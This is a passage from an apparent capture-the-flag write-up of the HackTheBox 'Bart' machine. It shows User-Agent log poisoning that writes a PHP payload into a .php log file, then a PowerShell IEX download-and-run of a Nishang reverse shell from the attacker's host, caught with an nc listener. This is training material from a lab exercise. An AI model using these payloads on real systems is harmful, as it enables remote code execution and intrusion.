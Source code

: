 ```bash
```

<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before trying to **Engage** the box, I am going to inquire about the configuration settings on the server with **phpinfo()**, what I am most interested in are those functions related to the execution of commands that may be **blacklisted**, but there is no control (**very bad practice**). Now if I can use a **[Nishang](https://www.kali.org/tools/nishang/){:target="_blank"}** script to get a **Reverse Shell**, I just need to open a port with `nc` to establish the remote connection, send the request using `python` with the correct command and refresh the page to access my target. I can now perform the basic **recon** commands.

> **Attacker Machine**:

```bash
python3
  imports requests
  headers = {'User-Agent':'<?php phpinfo();?>'}
  r = requests.get("http://internal-01.bart.htb/log/log.php?filename=oldboy.php&username=harvey", headers=headers)

# http://internal-01.bart.htb/log/oldboy.php

cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
nvim !$
nvim PS.ps1
cat PS.ps1 | tail -n 2
# Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.84 -Port 443
python3 -m http.server 80

  headers = {'User-Agent':'<?php system("powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.84/PS.ps1\')");?>'}
  r = requests.get("http://internal-01.bart.htb/log/log.php?filename=oldboy.php&username=harvey", headers=headers)

sudo rlwrap -cAr nc -nlvp 443

# http://internal-01.bart.htb/log/oldboy.php
```

> **Victime Machine**:

```cmd
whoami
hostname
```
